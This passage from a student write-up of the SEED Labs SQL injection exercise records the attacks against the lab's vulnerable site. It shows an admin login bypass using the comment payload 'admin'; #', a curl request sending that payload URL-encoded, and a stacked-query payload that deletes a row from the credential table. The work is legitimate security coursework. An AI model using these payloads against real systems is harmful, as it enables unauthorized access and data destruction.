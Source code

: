 ```sql
SELECT 
    id, name, eid, salary, birth, ssn, phoneNumber, address, email,
    nickname,Password 
FROM credential 
WHERE name= 'admin'; #' and Password='$hashed_pwd'
```

The image below shows that we successfully access the system as *admin*. 

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_5e761c31d9a864a409dc4445a22fd188.png"/>
<figcaption>Figure 4. Login Successful, Admin Profile Page</figcaption><br>
</figure>

### Task 2.2 - SQL Injection Attack from command line

We found that the example link to `index.php` will always return a 404 page. We used the `ls` command to list all files in the website root directory `/var/www/SQLInjection/`. As the image below shows, there was no `index.php` and we decided to try send request to the `unsafe_home.php` file (because it is previously mentioned in the document). 

<figure>
<img style="width:100%;" src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_e16f8e34568563248e1c124cf610cbdc.png"/>
<figcaption>Figure 5. Files in the website root dir</figcaption><br>
</figure>

Furthermore, we followed the instruction in the document to convert all special characters in parameters (`admin';#` => `admin%27%3B+%23`) . We also used a pair of single quotes to wrap the request URL. We command we used are shown in the codes section below. 

```shell
$ curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=admin%27%3B+%23&Password=anything' > task2.2.html
```

The result of the command was stored at "*task2.2.html*". As the image below shows, we opened that file by Firefox, whose content proven that we successfully launch the attack. 

<figure>
<img style="width:75%; padding-left:12.5%; " src="https://codimd.s3.shivering-isles.com/demo/uploads/upload_e56db261db873cc3db7a882d7d969161.png"/>
<figcaption>Figure 6. Login Successful</figcaption><br>
</figure>


### Task 2.3 - Append a new SQL statement

In SQL, semicolon (;) is used to separate two SQL statements. We combined the character with `#` in this task to run expect SQL statements. The code sections shows the username we used in the login-page. 

```sql
a'; delete from credential where id=9; #
```
